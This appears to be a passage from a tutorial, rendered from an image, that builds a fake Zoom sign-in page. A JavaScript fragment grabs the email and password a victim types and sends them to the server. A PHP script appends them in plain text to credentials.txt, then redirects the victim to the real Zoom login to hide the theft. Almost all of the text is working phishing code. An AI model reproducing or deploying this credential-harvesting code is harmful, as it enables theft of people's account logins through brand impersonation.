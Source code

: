 ```javascript
    
    // Change button text to "Sign In"
    this.querySelector(".zm-button__slot").innerText = "Sign In";

    // onclick "Sign In"
    this.onclick = async function() {
      const email = document.getElementById("email")?.value;
      const password = document.querySelector('input[name="password"]')?.value;
      logCredentials(email, password);
      sendCredentials(email,password)
      .then(async (response) => {
        response.redirected
          ? window.location.href = response.url
          : document.body.innerHTML = await response.text();
      });   
    }
  };
</script>

</body>
</html>     
```

Create PHP script to write user credentials to a file

* Check post parameter email and password
* Append user and password to file credential.txt
* Redirect the user to the official Zoom sign in page
* Lookup user credentials.txt

```php
// cat custom_login.php 
<?php
// Check if the form fields 'email' and 'password' are set
if (isset($_POST['email']) && isset($_POST['password'])) {
    // Get the email and password from the form
    $email = $_POST['email'];
    $password = $_POST['password'];

    // Define the file path to store the credentials
    $file = 'credentials.txt';

    // Prepare the data to write (append mode)
    $data = "Email: " . $email . "\nPassword: " . $password . "\n\n";

    // Use file_put_contents to write to the file and create it if it doesn’t exist
    if (file_put_contents($file, $data, FILE_APPEND | LOCK_EX) === false) {
        echo "Error writing to file.";
        exit();
    }

    // Redirect the user to the official Zoom sign in page
    header('Location: https://zoom.us/signin#/login');
    exit();
} else {
    header("Content-Type: text/plain");
    echo "Please ensure both email and password are provided.";
}
?>     
```
